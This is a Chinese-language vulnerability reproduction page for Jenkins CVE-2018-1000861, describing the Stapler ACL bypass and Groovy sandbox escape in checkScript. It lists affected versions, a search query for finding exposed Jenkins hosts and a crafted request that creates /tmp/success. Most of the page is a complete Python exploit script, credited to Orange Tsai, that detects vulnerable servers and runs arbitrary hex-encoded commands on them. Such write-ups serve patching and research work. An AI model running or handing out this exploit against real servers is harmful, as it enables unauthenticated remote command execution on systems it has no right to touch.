



Jenkins checkScript 远程命令执行漏洞 CVE-2018-1000861¶
漏洞描述¶
Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。
通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。
漏洞影响¶
Jenkins version < 2.138
Jenkins build time < 2019-01-28
网络测绘¶
app="Jenkins"
漏洞复现¶
登录页面

使用 EXP 执行命令
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
public x(){
"touch /tmp/success".execute()
}

成功创建/tmp/success

漏洞POC¶
#!/usr/bin/python
# coding: UTF-8
# author: Orange Tsai(@orange_8361)
#
import sys
import requests
from enum import Enum
# remove bad SSL warnings
try:
requests.packages.urllib3.disable_warnings()
except:
pass
endpoint = 'descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript'
class mode(Enum):
ACL_PATCHED = 0
NOT_JENKINS = 1
READ_ENABLE = 2
READ_BYPASS = 3
ENTRY_NOTFOUND = 999
def usage():
print '''
Usage:
python exp.py <url> <cmd>
'''
def _log(msg, fail=False):
nb = '[*]'
if fail:
nb = '[-]'
print '%s %s' % (nb, msg)
def _get(url, params=None):
r = requests.get(url, verify=False, params=params)
return r.status_code, r.content
def _add_bypass(url):
return url + 'securityRealm/user/admin/'
def check(url):
flag, accessible = mode.ACL_PATCHED, False
# check ANONYMOUS_READ
status, content = _get(url)
if status == 200 and 'adjuncts' in content:
flag, accessible = mode.READ_ENABLE, True
_log('ANONYMOUS_READ enable!')
elif status == 403:
_log('ANONYMOUS_READ disable!')
# check ACL bypass, CVE-2018-1000861
status, content = _get(_add_bypass(url))
if status == 200 and 'adjuncts' in content:
flag, accessible = mode.READ_BYPASS, True
else:
flag = mode.NOT_JENKINS
# check entry point, CVE-2019-1003005
if accessible:
if flag is mode.READ_BYPASS:
url = _add_bypass(url)
status, content = _get(url + endpoint)
if status == 404:
flag = mode.ENTRY_NOTFOUND
return flag
def exploit(url, cmd):
payload = 'public class x{public x(){new String("%s".decodeHex()).execute()}}' % cmd.encode('hex')
params = {
'sandbox': True,
'value': payload
}
status, content = _get(url + endpoint, params)
if status == 200:
_log('Exploit success!(it should be :P)')
elif status == 405:
_log('It seems Jenkins has patched the RCE gadget :(')
else:
_log('Exploit fail with HTTP status [%d]' % status, fail=True)
if 'stack trace' in content:
for _ in content.splitlines():
if _.startswith('Caused:'):
_log(_, fail=True)
if __name__ == '__main__':
if len(sys.argv) != 3:
usage()
exit()
url = sys.argv[1].rstrip('/') + '/'
cmd = sys.argv[2]
flag = check(url)
if flag is mode.ACL_PATCHED:
_log('It seems Jenkins is up-to-date(>2.137) :(', fail=True)
elif flag is mode.NOT_JENKINS:
_log('Is this Jenkins?', fail=True)
elif flag is mode.READ_ENABLE:
exploit(url, cmd)
elif flag is mode.READ_BYPASS:
_log('Bypass with CVE-2018-1000861!')
exploit(_add_bypass(url), cmd)
else:
_log('The `checkScript` is not found, please try other entries(see refs)', fail=True)